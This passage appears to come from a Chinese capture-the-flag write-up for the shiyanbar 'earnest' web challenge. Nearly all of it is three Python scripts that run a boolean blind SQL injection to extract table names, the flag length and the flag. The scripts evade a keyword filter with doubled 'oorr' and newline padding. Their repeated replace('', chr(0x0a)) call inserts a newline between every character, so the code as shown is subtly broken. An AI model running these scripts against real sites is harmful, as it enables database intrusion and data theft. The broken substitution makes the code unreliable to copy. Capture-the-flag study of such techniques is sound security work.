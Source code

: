 得到所有表名连接起来后，包含分隔符 `@` 的总长为 10。爆表名：
```python
import requests
import string

success = 'You are in'
url = 'http://ctf5.shiyanbar.com/web/earnest/index.php'
chrset = string.digits + string.ascii_lowercase + '_!~@'
table = ''

for i in range(1, 12):
  for j in chrset:
    val = "0'oorr((select(mid(group_concat(table_name separatoorr'@')from(%s)foorr(1)))from(infoorrmation_schema.tables)where(table_schema)=database())='%s')oorr'0" % (i, j)
    data = {'id': val.replace('', chr(0x0a))}
    print(data)
    r = requests.post(url, data=data)
    if success in r.text:
      table += j
      print(table)
      break
```

得到表名 `fiag` 和 `users`，显然前者是我们需要的。用同样的方法爆列名长度和列名 `fl$4g`。最后爆 flag 内容的长度：
```python
import requests
import string

success = 'You are in'
url = 'http://ctf5.shiyanbar.com/web/earnest/index.php'
chrset = string.digits + string.ascii_lowercase + r'_~=+-*/{\}?!:@#$%&()[],.'
i = 1

while True:
  val = "0'oorr((select(mid((fl$4g)from(%s)foorr(1)))from(fiag))='')oorr'0" % i
  data = {'id': val.replace('', chr(0x0a))}
  print(data)
  r = requests.post(url, data=data)
  if success in r.text:
    print('Finished, len = %s' % i)
    break
  i += 1
```

得长度为 13，爆 flag 内容：
```python
import requests
import string

success = 'You are in'
url = 'http://ctf5.shiyanbar.com/web/earnest/index.php'
chrset = string.digits + string.ascii_lowercase + r'_~=+-*/{\}?!:@#$%&()[],.'
flag = ''

for i in range(1, 14):
  for j in chrset:
    val = "0'oorr((select(mid((fl$4g)from(%s)foorr(1)))from(fiag))='%s')oorr'0" % (i, j)
    data = {'id': val.replace('', chr(0x0a))}
    print(data)
    r = requests.post(url, data=data)
    if success in r.text:
      flag += j
      print(flag)
      break
```
